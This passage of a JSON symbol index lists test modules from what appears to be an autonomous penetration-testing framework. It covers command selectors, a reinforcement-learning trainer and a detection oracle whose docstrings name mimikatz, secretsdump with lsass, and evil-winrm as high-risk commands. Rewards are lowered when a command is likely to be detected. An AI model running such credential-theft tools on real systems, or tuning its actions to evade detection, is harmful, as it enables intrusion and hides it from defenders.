"test_summarize_window_filters_old_records", "signature": "def test_summarize_window_filters_old_records(tmp_path)"}, {"doc": "``tail(n)`` returns the *n* most recent records in reverse order.", "kind": "function", "line": 163, "name": "test_tail_returns_newest_first", "signature": "def test_tail_returns_newest_first(tmp_path)"}, {"doc": "Threaded recorders produce decodable lines without truncation.", "kind": "function", "line": 173, "name": "test_concurrent_writes_do_not_corrupt", "signature": "def test_concurrent_writes_do_not_corrupt(tmp_path)"}, {"doc": "``get_recorder`` returns the same instance for repeated calls.", "kind": "function", "line": 202, "name": "test_get_recorder_is_singleton", "signature": "def test_get_recorder_is_singleton(tmp_path)"}, {"doc": "``MetricsAggregator.summarize`` is well-defined on no records.", "kind": "function", "line": 211, "name": "test_aggregator_handles_empty_iterable", "signature": "def test_aggregator_handles_empty_iterable()"}, {"doc": "Non-dict records are silently ignored.", "kind": "function", "line": 220, "name": "test_aggregator_skips_malformed_records", "signature": "def test_aggregator_skips_malformed_records()"}, {"doc": "Internal percentile helper matches the documented rank rule.", "kind": "function", "line": 227, "name": "test_p95_uses_nearest_rank", "signature": "def test_p95_uses_nearest_rank()"}, {"doc": "``MetricRecord.to_dict`` produces a JSON-friendly payload.", "kind": "function", "line": 234, "name": "test_metric_record_to_dict_roundtrip", "signature": "def test_metric_record_to_dict_roundtrip()"}, {"kind": "function", "line": 180, "name": "worker", "signature": "def worker(tag)"}]}, {"doc": "Tests for ``MetricsAwareSelector`` in ``skills/autonomous_daemon.py``.  The decorator must:  * be a transparent pass-through when the wrapped selector returns ``None`` or when there are not enough recorded attempts; * filter the decision when the recorded ``success_rate`` is below the configured threshold and ``count >= min_attempts``; * leave the :class:`FallbackSelector` unwrapped at chain composition time so the cascade always converges; * respect the env-driven master switch through :data:`METRICS_BIAS_ENABLED`; * cache the summary for the configured TTL to avoid re-reading the JSONL log on every step.", "id": "tests/test_metrics_aware_selector.py", "kind": "module", "label": "test_metrics_aware_selector.py", "language": "py", "sha256": "0fc7131e2acb570b", "symbol_count": 24, "symbols": [{"doc": "Selector double that returns a hard-coded decision or ``None``.", "kind": "class", "line": 37, "name": "_StubSelector", "signature": "class _StubSelector(ICommandSelector)"}, {"doc": "Stand-in for ``MetricsRecorder`` exposing only ``summarize``.", "kind": "class", "line": 54, "name": "_StubMetrics", "signature": "class _StubMetrics"}, {"kind": "function", "line": 71, "name": "_decision", "signature": "def _decision(command)"}, {"doc": "A ``None`` from the wrapped selector is forwarded verbatim.", "kind": "function", "line": 75, "name": "test_passthrough_when_wrapped_returns_none", "signature": "def test_passthrough_when_wrapped_returns_none()"}, {"doc": "Commands with fewer attempts than ``min_attempts`` are accepted.", "kind": "function", "line": 87, "name": "test_passthrough_when_insufficient_attempts", "signature": "def test_passthrough_when_insufficient_attempts()"}, {"doc": "Failing command is filtered out (selector returns ``None``).", "kind": "function", "line": 105, "name": "test_filters_when_success_rate_below_threshold", "signature": "def test_filters_when_success_rate_below_threshold()"}, {"doc": "Boundary case: ``success_rate == min_success_rate`` is accepted.", "kind": "function", "line": 122, "name": "test_accepts_when_success_rate_at_threshold", "signature": "def test_accepts_when_success_rate_at_threshold()"}, {"doc": "The decorator uses the first token of ``decision.command`` only.", "kind": "function", "line": 141, "name": "test_only_filters_named_command_not_whole_decision_object", "signature": "def test_only_filters_named_command_not_whole_decision_object()"}, {"doc": "Repeated calls within ``cache_ttl_s`` reuse the cached summary.", "kind": "function", "line": 158, "name": "test_summary_is_cached_within_ttl", "signature": "def test_summary_is_cached_within_ttl()"}, {"doc": "The configured window is passed straight through to ``summarize``.", "kind": "function", "line": 188, "name": "test_summary_forwards_window_seconds", "signature": "def test_summary_forwards_window_seconds()"}, {"doc": "``window_seconds=0`` translates to ``None`` for the source.", "kind": "function", "line": 201, "name": "test_zero_window_is_treated_as_unbounded", "signature": "def test_zero_window_is_treated_as_unbounded()"}, {"doc": "A ``None`` metrics source disables filtering, never raises.", "kind": "function", "line": 214, "name": "test_decorator_degrades_when_metrics_source_unavailable", "signature": "def test_decorator_degrades_when_metrics_source_unavailable()"}, {"doc": "``_wrap_chain_with_metrics_bias`` must not decorate the fallback.", "kind": "function", "line": 230, "name": "test_wrap_chain_leaves_fallback_unwrapped", "signature": "def test_wrap_chain_leaves_fallback_unwrapped()"}, {"doc": "When ``enabled`` is False the list is returned unchanged.", "kind": "function", "line": 241, "name": "test_wrap_chain_master_switch_off", "signature": "def test_wrap_chain_master_switch_off()"}, {"doc": "Re-wrapping an already-wrapped chain does not stack decorators.", "kind": "function", "line": 253, "name": "test_wrap_chain_is_idempotent", "signature": "def test_wrap_chain_is_idempotent()"}, {"doc": "``METRICS_BIAS_SKIP`` events are appended on filter.", "kind": "function", "line": 265, "name": "test_filtering_emits_skip_event", "signature": "def test_filtering_emits_skip_event(tmp_path, monkeypatch)"}, {"doc": "When every wrapped selector filters its decision the fallback wins.", "kind": "function", "line": 298, "name": "test_chain_falls_through_to_fallback_when_all_filtered", "signature": "def test_chain_falls_through_to_fallback_when_all_filtered()"}, {"kind": "method", "line": 40, "name": "__init__", "signature": "def __init__(self, decision)"}, {"kind": "method", "line": 44, "name": "select", "signature": "def select(self, target, phase, context)"}, {"kind": "method", "line": 57, "name": "__init__", "signature": "def __init__(self, by_command)"}, {"kind": "method", "line": 62, "name": "summarize", "signature": "def summarize(self, window_seconds)"}, {"kind": "function", "line": 169, "name": "fake_clock", "signature": "def fake_clock()"}, {"kind": "class", "line": 217, "name": "_BrokenSource", "signature": "class _BrokenSource"}, {"kind": "method", "line": 218, "name": "summarize", "signature": "def summarize(self, window_seconds)"}]}, {"doc": "Regression guard for the ``cli/commands`` migration generator.  ``scripts/migrate_lazyown.py`` emits phase-scoped ``*CommandSet`` modules. A prior version wrote the literal ``__all__ = [f\"{phase.title()}CommandSet\"]`` into every generated module -- an f-string that landed verbatim in the output where ``phase`` is undefined at module scope. Each generated module therefore raised ``NameError`` on import, which aborted :func:`cli.registry.iter_command_sets` and silently dropped every command set discovered after the offender.  These tests pin the generator contract so that regression cannot return: the emitted ``__all__`` must be a static list naming exactly the generated class, and the whole module must parse and expose that class name.", "id": "tests/test_migrate_lazyown_generator.py", "kind": "module", "label": "test_migrate_lazyown_generator.py", "language": "py", "sha256": "a8e270580744ddbf", "symbol_count": 6, "symbols": [{"doc": "Extract the ``__all__`` literal from ``source`` via AST.\n\nArgs:\n    source: Generated module source text.\n\nReturns:\n    The list of string names assigned to ``__all__``.\n\nRaises:\n    AssertionError: When ``__all__`` is missing or is not a list of string\n        constants (for example an f-string that would fail at import time).", "kind": "function", "line": 27, "name": "_module_all", "signature": "def _module_all(source)"}, {"kind": "function", "line": 57, "name": "test_generated_module_parses", "signature": "def test_generated_module_parses()"}, {"kind": "function", "line": 62, "name": "test_all_is_static_and_matches_class_name", "signature": "def test_all_is_static_and_matches_class_name()"}, {"kind": "function", "line": 68, "name": "test_compound_phase_title_casing", "signature": "def test_compound_phase_title_casing()"}, {"kind": "function", "line": 74, "name": "test_no_unevaluated_fstring_all_literal", "signature": "def test_no_unevaluated_fstring_all_literal()"}, {"kind": "function", "line": 81, "name": "test_method_bodies_are_embedded_in_order", "signature": "def test_method_bodies_are_embedded_in_order()"}]}, {"doc": "Tests for modules.module_registry — ModuleInfo, ModuleRegistry, search, summary.  Covers the data class, singleton pattern, search by name/type/category, and summary counts. The registry scans real filesystem paths so these tests also validate that discovery does not crash on the actual repo.", "id": "tests/test_module_registry.py", "kind": "module", "label": "test_module_registry.py", "language": "py", "sha256": "2230f3c01506d741", "symbol_count": 29, "symbols": [{"kind": "class", "line": 20, "name": "TestClassify", "signature": "class TestClassify"}, {"kind": "class", "line": 36, "name": "TestModuleInfo", "signature": "class TestModuleInfo"}, {"kind": "class", "line": 75, "name": "TestModuleRegistry", "signature": "class TestModuleRegistry"}, {"kind": "class", "line": 185, "name": "TestFormatFunctions", "signature": "class TestFormatFunctions"}, {"doc": "Each MODULE_TYPES prefix maps to the expected type.", "kind": "method", "line": 21, "name": "test_known_categories", "signature": "def test_known_categories(self)"}, {"kind": "method", "line": 27, "name": "test_unknown_category_defaults_to_auxiliary", "signature": "def test_unknown_category_defaults_to_auxiliary(self)"}, {"kind": "method", "line": 31, "name": "test_empty_string", "signature": "def test_empty_string(self)"}, {"kind": "method", "line": 37, "name": "test_minimal_construction", "signature": "def test_minimal_construction(self)"}, {"kind": "method", "line": 44, "name": "test_full_construction", "signature": "def test_full_construction(self)"}, {"kind": "method", "line": 62, "name": "test_to_dict", "signature": "def test_to_dict(self)"}, {"kind": "method", "line": 70, "name": "test_repr", "signature": "def test_repr(self)"}, {"doc": "get_instance returns the same object across calls.", "kind": "method", "line": 76, "name": "test_singleton", "signature": "def test_singleton(self)"}, {"doc": "Providing base_dir on first call initialises the path.", "kind": "method", "line": 82, "name": "test_singleton_with_base_dir", "signature": "def test_singleton_with_base_dir(self)"}, {"kind": "method", "line": 87, "name": "test_initial_state_not_scanned", "signature": "def test_initial_state_not_scanned(self)"}, {"doc": "scan() returns a list and sets _scanned to True.", "kind": "method", "line": 92, "name": "test_scan_returns_list", "signature": "def test_scan_returns_list(self)"}, {"doc": "Second scan() returns the same (cached) list.", "kind": "method", "line": 99, "name": "test_scan_is_idempotent", "signature": "def test_scan_is_idempotent(self)"}, {"doc": "rescan() clears the cache and rescans.", "kind": "method", "line": 106, "name": "test_rescan_forces_refresh", "signature": "def test_rescan_forces_refresh(self)"}, {"kind": "method", "line": 115, "name": "test_search_returns_list", "signature": "def test_search_returns_list(self)"}, {"kind": "method", "line": 121, "name": "test_search_by_module_type", "signature": "def test_search_by_module_type(self)"}, {"kind": "method", "line": 127, "name": "test_search_by_category", "signature": "def test_search_by_category(self)"}, {"doc": "get() returns a ModuleInfo for a known name.", "kind": "method", "line": 133, "name": "test_get_known_module", "signature": "def test_get_known_module(self)"}, {"kind": "method", "line": 145, "name": "test_get_unknown_returns_none", "signature": "def test_get_unknown_returns_none(self)"}, {"kind": "method", "line": 149, "name": "test_summary_returns_counts", "signature": "def test_summary_returns_counts(self)"}, {"kind": "method", "line": 159, "name": "test_by_type_shorthand", "signature": "def test_by_type_shorthand(self)"}, {"doc": "search with enabled_only=True skips disabled modules.", "kind": "method", "line": 164, "name": "test_search_enabled_only_filters_disabled", "signature": "def test_search_enabled_only_filters_disabled(self)"}, {"kind": "method", "line": 186, "name": "test_format_module_table_empty", "signature": "def test_format_module_table_empty(self)"}, {"kind": "method", "line": 190, "name": "test_format_module_table_with_data", "signature": "def test_format_module_table_with_data(self)"}, {"kind": "method", "line": 201, "name": "test_format_module_detail", "signature": "def test_format_module_detail(self)"}, {"kind": "method", "line": 217, "name": "test_format_module_detail_minimal", "signature": "def test_format_module_detail_minimal(self)"}]}, {"doc": "tests/test_moe_rl_swan.py ========================= Test suite for the MoE + RL + SWAN + Detection Oracle architecture.  Covers: - modules/detection_oracle.py  (DetectionOracle, DetectionAssessment) - modules/moe_router.py        (MoERouter, ExpertPerformanceStore, SoftmaxSelector) - modules/rl_trainer.py        (RLTrainer, QValueStore, EpsilonTracker) - skills/swan_agent.py         (SwanResult, OutcomeEvaluator, mcp_swan_route) - skills/autonomous_daemon.py  (SWANSelector, cascade order, RL feedback) - skills/lazyown_policy.py     (detection-aware reward shaping) - modules/world_model.py       (graph / pivot candidates)  All tests are self-contained: they do NOT call real LLM APIs, do NOT require GROQ_API_KEY, and use tmp_path fixtures for any on-disk persistence.", "id": "tests/test_moe_rl_swan.py", "kind": "module", "label": "test_moe_rl_swan.py", "language": "py", "sha256": "24d3971e795cf2de", "symbol_count": 59, "symbols": [{"kind": "class", "line": 37, "name": "TestDetectionOracle", "signature": "class TestDetectionOracle"}, {"kind": "class", "line": 121, "name": "TestMoERouter", "signature": "class TestMoERouter"}, {"kind": "class", "line": 223, "name": "TestRLTrainer", "signature": "class TestRLTrainer"}, {"kind": "class", "line": 340, "name": "TestSwanAgent", "signature": "class TestSwanAgent"}, {"kind": "class", "line": 493, "name": "TestAutonomousDaemonSWAN", "signature": "class TestAutonomousDaemonSWAN"}, {"kind": "class", "line": 571, "name": "TestPolicyDetectionAware", "signature": "class TestPolicyDetectionAware"}, {"kind": "class", "line": 616, "name": "TestWorldModelGraph", "signature": "class TestWorldModelGraph"}, {"kind": "class", "line": 675, "name": "TestMCPRegistration", "signature": "class TestMCPRegistration"}, {"doc": "A plain dig query should have LOW detection probability.", "kind": "method", "line": 38, "name": "test_low_risk_dns_query", "signature": "def test_low_risk_dns_query(self)"}, {"doc": "mimikatz credential dump must be flagged HIGH risk.", "kind": "method", "line": 46, "name": "test_high_risk_mimikatz", "signature": "def test_high_risk_mimikatz(self)"}, {"doc": "secretsdump combined with lsass keyword should reach HIGH/CRITICAL.", "kind": "method", "line": 54, "name": "test_critical_risk_combined_credential_tools", "signature": "def test_critical_risk_combined_credential_tools(self)"}, {"doc": "DetectionAssessment dataclass must contain all documented fields.", "kind": "method", "line": 62, "name": "test_assessment_has_required_fields", "signature": "def test_assessment_has_required_fields(self)"}, {"doc": "is_high_risk must be True iff probability >= 0.70.", "kind": "method", "line": 75, "name": "test_is_high_risk_property_consistent_with_probability", "signature": "def test_is_high_risk_property_consistent_with_probability(self)"}, {"doc": "get_oracle() must always return the same object (singleton).", "kind": "method", "line": 83, "name": "test_singleton_returns_same_instance", "signature": "def test_singleton_returns_same_instance(self)"}, {"doc": "Plain nmap should not be considered high risk.", "kind": "method", "line": 91, "name": "test_nmap_is_not_high_risk", "signature": "def test_nmap_is_not_high_risk(self)"}, {"doc": "evil-winrm lateral movement must be flagged HIGH risk.", "kind": "method", "line": 99, "name": "test_evil_winrm_is_high_risk", "signature": "def test_evil_winrm_is_high_risk(self)"}, {"doc": "is_critical_risk must be True iff probability >= 0.90.", "kind": "method", "line": 107, "name": "test_is_critical_risk_property", "signature": "def test_is_critical_risk_property(self)"}, {"doc": "get_router() must return the same MoERouter instance.", "kind": "method", "line": 122, "name": "test_singleton_returns_same_instance", "signature": "def test_singleton_returns_same_instance(self)"}, {"doc": "route() must return a valid ExpertProfile or raise RuntimeError (no keys).", "kind": "method", "line": 130, "name": "test_route_returns_expert_or_raises_gracefully", "signature": "def test_route_returns_expert_or_raises_gracefully(self)"}, {"doc": "ensemble() must return a list (may be fewer than N when few experts available).", "kind": "method", "line": 143, "name": "test_ensemble_returns_available_candidates", "signature": "def test_ensemble_returns_available_candidates(self)"}, {"doc": "record() must create/update EMA for the given (expert, task_type).", "kind": "method", "line": 154, "name": "test_record_outcome_updates_ema", "signature": "def test_record_outcome_updates_ema(self, tmp_path)"}, {"doc": "After a high reward, performance_bonus should be non-negative.", "kind": "method", "line": 164, "name": "test_performance_bonus_positive_after_success", "signature": "def test_performance_bonus_positive_after_success(self, tmp_path)"}, {"doc": "Same base reward but high detection should yield lower EMA reward.", "kind": "method", "line": 173, "name": "test_performance_bonus_penalises_high_detection", "signature": "def test_performance_bonus_penalises_high_detection(self, tmp_path)"}, {"doc": "status_report() must return a dict with 'experts' key.", "kind": "method", "line": 184, "name": "test_status_report_contains_experts", "signature": "def test_status_report_contains_experts(self)"}, {"doc": "In deterministic mode, SoftmaxSelector.select() returns the argmax expert.", "kind": "method", "line": 193, "name": "test_softmax_deterministic_picks_highest_weight", "signature": "def test_softmax_deterministic_picks_highest_weight(self)"}, {"doc": "encode_state must return 'task:phase:bucket' string.", "kind": "method", "line": 224, "name": "test_encode_state_format", "signature": "def test_encode_state_format(self)"}, {"doc": "select_action must return one of the provided candidates.", "kind": "method", "line": 236, "name": "test_select_action_returns_valid_candidate", "signature": "def test_select_action_returns_valid_candidate(self)"}, {"doc": "After update(), Q(state, action) must differ from the initial value.", "kind": "method", "line": 246, "name": "test_update_changes_qvalue", "signature": "def test_update_changes_qvalue(self, tmp_path)"}, {"doc": "epsilon must be strictly smaller after calling update().", "kind": "method", "line": 269, "name": "test_epsilon_decays_after_update", "signature": "def test_epsilon_decays_after_update(self, tmp_path)"}, {"doc": "Same raw reward but high detection_prob must yield a lower Q-update.", "kind": "method", "line": 281, "name": "test_detection_penalty_lowers_effective_reward", "signature": "def test_detection_penalty_lowers_effective_reward(self, tmp_path)"}, {"doc": "An unseen (state, action) pair must return optimistic_init value.", "kind": "method", "line": 310, "name": "test_optimistic_init_for_unseen_actions", "signature": "def test_optimistic_init_for_unseen_actions(self, tmp_path)"}, {"doc": "Q-values saved to disk must be recoverable after re-instantiation.", "kind": "method", "line": 318, "name": "test_save_and_reload_persistence", "signature": "def test_save_and_reload_persistence(self, tmp_path)"}, {"doc": "SwanResult must have all documented fields.", "kind": "method", "line": 341, "name": "test_swan_result_dataclass_fields", "signature": "def test_swan_result_dataclass_fields(self)"}, {"doc": "is_success must be False when status != 'completed'.", "kind": "method", "line": 364, "name": "test_swan_result_failed_is_not_success", "signature": "def test_swan_result_failed_is_not_success(self)"}, {"doc": "Successful non-detected command should yield positive reward.", "kind": "method", "line": 380, "name": "test_outcome_evaluator_success_reward", "signature": "def test_outcome_evaluator_success_reward(self)"}, {"doc": "A failed execution must yield negative reward.", "kind": "method", "line": 399, "name": "test_outcome_evaluator_failed_gives_negative_reward", "signature": "def test_outcome_evaluator_failed_gives_negative_reward(self)"}, {"doc": "Successful privesc task should have a higher reward than basic recon.", "kind": "method", "line": 417, "name": "test_outcome_evaluator_high_value_category_bonus", "signature": "def test_outcome_evaluator_high_value_category_bonus(self)"}, {"doc": "mcp_swan_route() must return valid JSON with routing + task_type.", "kind": "method", "line": 438, "name": "test_mcp_swan_route_returns_valid_json", "signature": "def test_mcp_swan_route_returns_valid_json(self)"}, {"doc": "mcp_swan_status() must return valid JSON with experts key.", "kind": "method", "line": 452, "name": "test_mcp_swan_status_returns_valid_json", "signature": "def test_mcp_swan_status_returns_valid_json(self)"}, {"doc": "EnsembleResult must have all documented fields.", "kind": "method", "line": 460, "name": "test_ensemble_result_dataclass_fields", "signature": "def test_ensemble_result_dataclass_fields(self)"}, {"doc": "SWANSelector.select() must return None when AUTO_USE_SWAN is not '1'.", "kind": "method", "line": 494, "name": "test_swan_selector_disabled_by_default", "signature": "def test_swan_selector_disabled_by_default(self)"}, {"doc": "Every phase in _PHASE_TO_TASK must map to a valid SWAN task_type.", "kind": "method", "line": 503, "name": "test_swan_selector_phase_mapping_coverage", "signature": "def test_swan_selector_phase_mapping_coverage(self)"}, {"doc": "The default StrategyEngine cascade must include a SWANSelector.", "kind": "method", "line": 511, "name": "test_cascade_strategy_contains_swan_selector", "signature": "def test_cascade_strategy_contains_swan_selector(self)"}, {"doc": "SWANSelector must appear before FallbackSelector in the cascade.", "kind": "method", "line": 525, "name": "test_cascade_strategy_order", "signature": "def test_cascade_strategy_order(self)"}, {"doc": "FallbackSelector must always return a CommandDecision, never None.", "kind": "method", "line": 539, "name": "test_fallback_selector_never_returns_none", "signature": "def test_fallback_selector_never_returns_none(self)"}, {"doc": "FallbackSelector decisions must carry source='fallback'.", "kind": "method", "line": 548, "name": "test_command_decision_source_label", "signature": "def test_command_decision_source_label(self)"}, {"doc": "LLMSelector must return None when AUTO_USE_LLM is not set.", "kind": "method", "line": 556, "name": "test_llm_selector_disabled_without_env", "signature": "def test_llm_selector_disabled_without_env(self)"}, {"doc": "calculate_with_detection: reward must be 0 when detect >= 0.70.", "kind": "method", "line": 572, "name": "test_detection_above_threshold_zeroes_reward", "signature": "def test_detection_above_threshold_zeroes_reward(self)"}, {"doc": "Low-detection success should keep a positive reward value.", "kind": "method", "line": 587, "name": "test_low_detection_preserves_positive_reward", "signature": "def test_low_detection_preserves_positive_reward(self)"}, {"doc": "Failed recon action must produce a negative reward regardless of detection.", "kind": "method", "line": 602, "name": "test_failed_outcome_gives_negative_reward", "signature": "def test_failed_outcome_gives_negative_reward(self)"}, {"doc": "After adding relations, pivot_candidates must return hosts by centrality.", "kind": "method", "line": 617, "name": "test_add_relation_and_pivot_candidates", "signature": "def test_add_relation_and_pivot_candidates(self, tmp_path)"}, {"doc": "graph_snapshot() must return a JSON-serialisable dict.", "kind": "method", "line": 634, "name": "test_graph_snapshot_is_serialisable", "signature": "def test_graph_snapshot_is_serialisable(self, tmp_path)"}, {"doc": "add_service should auto-create a graph node for the host (prefixed).", "kind": "method", "line": 645, "name": "test_auto_relation_on_service_add", "signature": "def test_auto_relation_on_service_add(self, tmp_path)"}, {"doc": "pivot_candidates must return results sorted descending by centrality.", "kind": "method", "line": 656, "name": "test_pivot_candidates_sorted_by_centrality", "signature": "def test_pivot_candidates_sorted_by_centrality(self, tmp_path)"}, {"doc": "The four SWAN tools must appear in lazyown_mcp list_tools names.", "kind": "method", "line": 676, "name": "test_swan_tools_registered_in_mcp", "signature": "def test_swan_tools_registered_in_mcp(self)"}, {"doc": "Core hive tools must appear in lazyown_mcp.py.", "kind": "method", "line": 685, "name": "test_hive_tools_registered_in_mcp", "signature": "def test_hive_tools_registered_in_mcp(self)"}, {"kind": "function", "line": 199, "name": "_ep", "signature": "def _ep(eid, w)"}, {"kind": "function", "line": 285, "name": "_make_trainer", "signature": "def _make_trainer(suffix)"}, {"kind": "function", "line": 421, "name": "_result", "signature": "def _result(task_type)"}]}, {"doc": "Regression coverage for ``modules.moe_router.ExpertAvailabilityChecker._check``.  A local ``import pathlib, os`` inside the toposwarm branch used to shadow the module-level ``os`` import for the whole function. CPython's function-scope rule made every ``os.environ.get`` higher up in the function raise :class:`UnboundLocalError`, which the surrounding ``except Exception`` swallowed silently — so the MoE router fell back to the static path on every call and the experts list collapsed to a single entry.  These tests pin the corrected behaviour: the groq and ollama branches read environment variables without touching the toposwarm import path, and the toposwarm branch resolves a directory through the module-level ``os`` and ``Path`` symbols.", "id": "tests/test_moe_router_check_regression.py", "kind": "module", "label": "test_moe_router_check_regression.py", "language": "py", "sha256": "425197ac729c5284", "symbol_count": 6, "symbols": [{"doc": "The groq branch must not raise ``UnboundLocalError`` when key is empty.", "kind": "function", "line": 27, "name": "test_check_groq_returns_false_without_api_key", "signature": "def test_check_groq_returns_false_without_api_key(monkeypatch)"}, {"doc": "An explicit ``api_key`` argument shortcircuits without reading env.", "kind": "function", "line": 47, "name": "test_check_groq_returns_true_with_explicit_key", "signature": "def test_check_groq_returns_true_with_explicit_key()"}, {"doc": "When no api_key is supplied the env var is consulted.", "kind": "function", "line": 65, "name": "test_check_groq_reads_env_when_arg_empty", "signature": "def test_check_groq_reads_env_when_arg_empty(monkeypatch)"}, {"doc": "The toposwarm branch must resolve ``TOPOSWARM_DIR`` through stdlib.", "kind": "function", "line": 85, "name": "test_check_toposwarm_uses_module_level_os_and_path", "signature": "def test_check_toposwarm_uses_module_level_os_and_path(tmp_path, monkeypatch)"}, {"doc": "An absent orchestrator file means the backend is unavailable.", "kind": "function", "line": 110, "name": "test_check_toposwarm_returns_false_when_dir_absent", "signature": "def test_check_toposwarm_returns_false_when_dir_absent(tmp_path, monkeypatch)"}, {"doc": "Any backend not enumerated is treated as unavailable.", "kind": "function", "line": 131, "name": "test_check_unknown_backend_is_unavailable", "signature": "def test_check_unknown_backend_is_unavailable()"}]}, {"doc": "Mutation verification contracts.  Each test encodes a mutation that the suite must catch. If the guard under test is removed, the matching test fails. The tests assert, so pytest records a real pass or fail instead of warning about a returned value.", "id": "tests/test_mutation_verification.py", "kind": "module", "label": "test_mutation_verification.py", "language": "py", "sha256": "459dafa84f670485", "symbol_count": 5, "symbols": [{"doc": "A table name with SQL metacharacters is rejected by the allowlist.", "kind": "function", "line": 19, "name": "test_sql_injection_blocked", "signature": "def test_sql_injection_blocked()"}, {"doc": "check_auth uses hmac.compare_digest and no plaintext comparison.", "kind": "function", "line": 27, "name": "test_hmac_compare_digest_used", "signature": "def test_hmac_compare_digest_used()"}, {"doc": "core/safe_subprocess.py runs every command with shell=False.", "kind": "function", "line": 41, "name": "test_shell_false_in_safe_runner", "signature": "def test_shell_false_in_safe_runner()"}, {"doc": "utils.py does not import pickle.", "kind": "function", "line": 56, "name": "test_pickle_removed", "signature": "def test_pickle_removed()"}, {"doc": "utils.py does not embed the legacy bootstrap passwords.", "kind": "function", "line": 63, "name": "test_no_hardcoded_secrets", "signature": "def test_no_hardcoded_secrets()"}]}, {"doc": "Network helpers command set extraction tests.  SDD contract for the network helpers cluster split out of ``cli/commands/misc_migrated.py`` into ``cli/commands/nethelpers.py``.  Stage A (pending): the new ``NetworkHelpersCommandSet`` subclasses ``PendingCommandSet`` so it is discovered but not registered, coexisting with the originals. Tests assert structure plus AST parity with the original methods in ``misc_migrated.py``.  Stage B (active): after the originals are deleted and the base class is flipped to ``LazyOwnCommandSet``, tests assert registry discovery, active registration eligibility, and absence of the methods in ``misc_migrated.py``.", "id": "tests/test_nethelpers_command_set.py", "kind": "module", "label": "test_nethelpers_command_set.py", "language": "py", "sha256": "1ff59eabe2d6d664", "symbol_count": 9, "symbols": [{"kind": "function", "line": 32, "name": "_add_repo_root_to_syspath", "signature": "def _add_repo_root_to_syspath()"}, {"doc": "Centralised constants for the nethelpers extraction suite.", "kind": "class", "line": 38, "name": "NethelpersSuiteConfig", "signature": "class NethelpersSuiteConfig"}, {"kind": "function", "line": 61, "name": "_methods_of", "signature": "def _methods_of(path, class_name)"}, {"kind": "function", "line": 73, "name": "test_target_is_active_command_set", "signature": "def test_target_is_active_command_set()"}, {"kind": "function", "line": 82, "name": "test_target_exposes_full_nethelpers_cluster", "signature": "def test_target_exposes_full_nethelpers_cluster()"}, {"kind": "function", "line": 89, "name": "test_target_phase_metadata", "signature": "def test_target_phase_metadata()"}, {"kind": "function", "line": 95, "name": "test_source_no_longer_defines_cluster", "signature": "def test_source_no_longer_defines_cluster()"}, {"kind": "function", "line": 101, "name": "test_registry_registers_target", "signature": "def test_registry_registers_target()"}, {"kind": "function", "line": 108, "name": "test_no_command_collisions_with_source", "signature": "def test_no_command_collisions_with_source()"}]}, {"doc": "Contract tests: no os.system and no manual sys.stdout reassignment.  The framework treats ``os.system`` as forbidden in production code and requires stdout capture through ``contextlib.redirect_stdout``. These tests parse the production tree with ``ast``, so a string that merely mentions ``os.system`` (a target payload or a docstring) does not count. Only a real call node or a real assignment node fails the contract.", "id": "tests/test_no_shell_execution.py", "kind": "module", "label": "test_no_shell_execution.py", "language": "py", "sha256": "d73c4f47e4dbdd80", "symbol_count": 8, "symbols": [{"doc": "Configuration for the execution contract scan.\n\nAttributes:\n    roots: Repo-relative directories whose Python files are production code.\n    root_files: Repo-relative Python files at the repository root.\n    skip_dirs: Directory names that never contain hand-written production code.\n    skip_files: Repo-relative generated files that are not audited.", "kind": "class", "line": 20, "name": "ScanConfig", "signature": "class ScanConfig"}, {"doc": "Parse a Python file, returning ``None`` when it does not parse.", "kind": "function", "line": 64, "name": "_parse", "signature": "def _parse(path)"}, {"doc": "Return ``file:line`` for every real ``os.system(...)`` call.\n\nArgs:\n    config: Optional scan configuration.\nReturns:\n    A sorted list of ``relative_path:lineno`` strings.", "kind": "function", "line": 72, "name": "find_os_system_calls", "signature": "def find_os_system_calls(config)"}, {"doc": "Return ``file:line`` for every manual ``sys.stdout = ...`` assignment.\n\nArgs:\n    config: Optional scan configuration.\nReturns:\n    A sorted list of ``relative_path:lineno`` strings.", "kind": "function", "line": 96, "name": "find_stdout_assignments", "signature": "def find_stdout_assignments(config)"}, {"doc": "Production code must not call ``os.system``.", "kind": "function", "line": 124, "name": "test_no_os_system_in_production", "signature": "def test_no_os_system_in_production()"}, {"doc": "Production code must capture stdout with contextlib, not manual assignment.", "kind": "function", "line": 130, "name": "test_no_manual_stdout_reassignment", "signature": "def test_no_manual_stdout_reassignment()"}, {"doc": "The scanner reports a real call and ignores a string that mentions it.", "kind": "function", "line": 136, "name": "test_scanner_detects_a_synthetic_os_system", "signature": "def test_scanner_detects_a_synthetic_os_system(tmp_path)"}, {"doc": "Yield the production Python files covered by the contract.", "kind": "method", "line": 44, "name": "iter_files", "signature": "def iter_files(self)"}]}, {"doc": "Tests for modules/integrations/nuclei_parser.py", "id": "tests/test_nuclei_parser.py", "kind": "module", "label": "test_nuclei_parser.py", "language": "py", "sha256": "9d54ef328c7b38ed", "symbol_count": 21, "symbols": [{"kind": "class", "line": 13, "name": "TestNucleiFinding", "signature": "class TestNucleiFinding"}, {"kind": "class", "line": 58, "name": "TestNucleiParserText", "signature": "class TestNucleiParserText"}, {"kind": "class", "line": 73, "name": "TestNucleiParserJson", "signature": "class TestNucleiParserJson"}, {"kind": "class", "line": 120, "name": "TestSeverityMap", "signature": "class TestSeverityMap"}, {"kind": "class", "line": 128, "name": "TestMitreTactics", "signature": "class TestMitreTactics"}, {"kind": "class", "line": 134, "name": "TestRecommendations", "signature": "class TestRecommendations"}, {"kind": "method", "line": 14, "name": "test_fields", "signature": "def test_fields(self)"}, {"kind": "method", "line": 28, "name": "test_exploit_probability_map", "signature": "def test_exploit_probability_map(self)"}, {"kind": "method", "line": 46, "name": "test_mitre_tactic", "signature": "def test_mitre_tactic(self)"}, {"kind": "method", "line": 59, "name": "test_parse_empty", "signature": "def test_parse_empty(self)"}, {"kind": "method", "line": 64, "name": "test_parse_nuclei_line", "signature": "def test_parse_nuclei_line(self)"}, {"kind": "method", "line": 74, "name": "test_parse_empty", "signature": "def test_parse_empty(self)"}, {"kind": "method", "line": 78, "name": "test_parse_json_single_finding", "signature": "def test_parse_json_single_finding(self)"}, {"kind": "method", "line": 90, "name": "test_parse_json_multiple_findings", "signature": "def test_parse_json_multiple_findings(self)"}, {"kind": "method", "line": 99, "name": "test_parse_json_array", "signature": "def test_parse_json_array(self)"}, {"kind": "method", "line": 108, "name": "test_parse_with_cve_classification", "signature": "def test_parse_with_cve_classification(self)"}, {"kind": "method", "line": 121, "name": "test_critical_is_10", "signature": "def test_critical_is_10(self)"}, {"kind": "method", "line": 124, "name": "test_info_is_1", "signature": "def 